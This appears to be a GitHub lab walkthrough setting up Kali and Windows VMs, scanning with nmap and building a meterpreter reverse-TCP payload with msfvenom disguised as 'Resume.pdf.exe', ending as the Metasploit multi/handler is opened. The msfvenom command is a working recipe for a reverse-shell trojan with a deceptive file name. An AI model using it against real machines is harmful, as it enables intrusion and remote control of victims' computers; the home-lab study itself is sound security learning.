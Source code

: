 I open the Command Prompt and type ipconfig to bring up the Windows IP configuration. This is to verify that the IPv4 address has been changed.

<img width="2560" alt="4" src="https://github.com/user-attachments/assets/d500c42a-af0f-42a8-87af-c2797eee2e2c" />

In the Kali Linux VM, I statically assign the IP address to 192.168.20.11. The subnet mask defaults to 255.255.255.0.

<img width="2560" alt="5" src="https://github.com/user-attachments/assets/d32ff489-6be1-4021-a6b4-d826d6da477b" />

I open the Terminal and type ifconfig to bring up the internet configuration. This is to verify that the IPv4 address has been changed. Next, I ping the Windows VM by typing ping 192.168.20.10 but see that it will not work since Windows Firewall is blocking the incoming traffic.

<img width="2560" alt="6" src="https://github.com/user-attachments/assets/4f6b8c13-215b-4e8d-b83e-19ea40c8d1ec" />

In the Windows VM, I type ping 192.168.20.11 in Command Prompt to ping the Kali Linux VM. This shows activity in Command Prompt and verifies that both VMs can communicate with one another. 

<img width="2560" alt="3 1" src="https://github.com/user-attachments/assets/7187ec61-80d8-46eb-9932-d1f504b16ba2" />

Next, I took note of the IP address of my Kali Linux machine that will be used in building the malware. The IP address is obtained by typing ifconfig in the Terminal. 

<img width="2560" alt="3 2" src="https://github.com/user-attachments/assets/93217f8f-4614-4328-8981-ff8641c57938" />

Next, in the Terminal, I type nmap -A 192.168.20.10 -Pn. My Windows machine is on the IP address ending in .10. Nmap scans all the ports and will scan them. -Pn skips pings. After Nmap runs, the results return showing that port 3389 for RDP is open on the Windows machine.

<img width="2560" alt="3 3" src="https://github.com/user-attachments/assets/bfebb106-9f86-4644-9846-7b72e4f4c066" />

In Terminal, I type msfvenom -l payloads to view the list of midterpreters that can be used as the payload. The one I selected is windows/x64/meterpreter_reverse_tcp.

<img width="2560" alt="3 4" src="https://github.com/user-attachments/assets/ddf263fa-85cb-4dd8-84b8-b9e731191f88" />

Next, in Terminal, I type msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe. This command generates malware using meterpreter’s reverse TCP payload which is instructed to connect back to a machine based on the L host and L port. The file format is an .exe format as specified and the file name will be Resume.pdf.exe.

<img width="2560" alt="3 5" src="https://github.com/user-attachments/assets/6f223fdd-72e6-472e-94cf-243cd94815a9" />

After running the command, I type ls in Terminal to verify that the file has been created by printing out the contents of the current directory.

<img width="2560" alt="3 6" src="https://github.com/user-attachments/assets/6db034ed-3a62-4d46-b722-108df800d888" />

Metasploit is opened by typing msfconsole in Terminal. The multihandler is used by typing use exploit/multi/handler. This allows the user to be in the exploit itself.

<img width="2560" alt="3 7" src="https://github.com/user-attachments/assets/bc9597fb-2158-406a-bf29-6246c5813286" />
